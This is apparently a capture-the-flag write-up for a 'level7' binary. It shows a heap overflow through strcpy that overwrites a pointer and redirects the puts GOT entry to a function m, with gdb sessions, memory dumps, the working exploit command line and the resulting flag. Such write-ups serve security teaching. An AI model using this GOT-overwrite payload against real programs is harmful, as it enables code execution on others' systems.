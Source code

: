 The first `strcpy` has an offset of 20. After 20 characters, it erases the address `0x0804a038` that is the destination pointer of the second `strcpy`.

The solution: we have to replace the puts-function address with the m-function address with:

- argv[1]: PADDING[20] + the address where we want to write: _the puts-function address in GOT:_ `0x08049928`
- argv[2]: the value we want to write: _the m-function address_: `080484f4`

Lets try in gdb

```shell
gdb-peda$ b*0x080485bd # before 2nd strcpy
gdb-peda$ run $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
gdb-peda$ x/20x 0x804a000
> 0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
  0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
  0x804a020:      0x41414141      0x41414141      0x41414141      0x08049928
  0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
  0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

gdb-peda$ nexti
gdb-peda$ x/20x 0x804a000
> 0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
  0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
  0x804a020:      0x41414141      0x41414141      0x41414141      0x08049928
  0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
  0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

gdb-peda$ x/x 0x08049928
> 0x8049928 <puts@got.plt>:       0x080484f4
```

That is good ! The address of the pointer `s_arg2->ptr` has been changed with `0x08049928` (puts-function address). Then this address aims to the m-function. It is perfect !

Lets try without gdb:

```bash
~/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
> 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
  (...)
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [FR - Buffer overflow](https://beta.hackndo.com/buffer-overflow/)
